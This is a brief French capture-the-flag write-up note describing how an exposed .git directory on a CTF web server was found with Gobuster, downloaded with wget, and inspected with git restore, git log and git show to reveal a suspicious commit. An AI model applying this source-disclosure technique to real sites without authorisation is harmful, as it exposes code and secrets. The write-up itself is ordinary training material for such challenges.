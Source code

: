 TAGS : #WEB #GIT 
https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37

Gobuster :
![[Pasted image 20240315155845.png]]

.git exposé 
On récup le fichier .git 
```
wget --mirror -I .git http://ctf.hackinprovence.fr:33378/.git/
```

On se déplace dans le fichier téléchargé 
* git status 
![[Pasted image 20240315160044.png]]
* git restore .  --> restaurer les ficheirs supprimés 
* git log -- voir les commits passés 
![[Pasted image 20240315160132.png]]

Un commit nommé "What is this ?" --> sus donc on vérifie
* git show --id--
![[Pasted image 20240315160216.png]]

